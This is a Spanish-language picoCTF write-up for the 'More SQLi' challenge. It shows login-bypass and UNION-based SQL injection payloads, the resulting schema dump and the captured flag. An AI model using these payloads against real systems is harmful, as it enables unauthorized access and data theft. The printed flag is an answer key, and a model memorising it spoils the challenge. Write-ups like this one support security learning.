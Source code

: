 ## Reto:  More SQLi
### Descripción
Puede encontrar la bandera en este sitio web.Intenta encontrar la bandera [aquí](http://saturn.picoctf.net:56161/).
### Solución
Entramos a la pagina que nos proporciona el enlace
Ahora vemos que existe un `loggin`  el cual no tenemos acceso por lo que por medio de `payload` ingresamos.
En `username` ponemos `' OR 1=1;
Y en contrasena ingresamos lo que sea, vemos que nos regresa lo siguiente:
```HTTP
username: ' OR 1=1;
password: fsf
SQL query: SELECT id FROM users WHERE password = 'fsf' AND username = '' OR 1=1;'
```

Podemos notar que el `payload` se tiene que hacer en el apartado `password`, por lo que hacemos lo mismo, pero con la contrasena.
Y logramos ingresar!

Vemos que nos aparece una tabla con países.
Ingresamos el siguiente comando:
```SQL
'union select sql,2,3 from sqlite_master;
```
Esto nos permite unir la consulta y mostrar la estructura SQL del diagrama de la pagina.

Esto nos muestra las tablas que hay:
```sql
|City|Address|Phone|
|---|---|---|
||2|3|
|CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)|2|3|
|CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)|2|3|
|CREATE TABLE offices (id INTEGER NOT NULL PRIMARY KEY, city TEXT, address TEXT, phone TEXT)|2|3|
|CREATE TABLE users (name TEXT NOT NULL PRIMARY KEY, password TEXT, id INTEGER)|2|3|
```

Podemos ver que en la tabla `more_table` esta la bandera, asi que escribimos lo siguiente:
```sql
'union select id,flag,3 from more_table;
```
Esto nos devolverá el id y la bandera:
```sql
|City|Address|Phone|
|---|---|---|
|1|picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}|3|
|2|If you are here, you must have seen it|3|
```

Y encontramos la bandera:
```flag
picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_62aa7500}
```

### Notas adicionales
### Referencias

[[More SQLi]]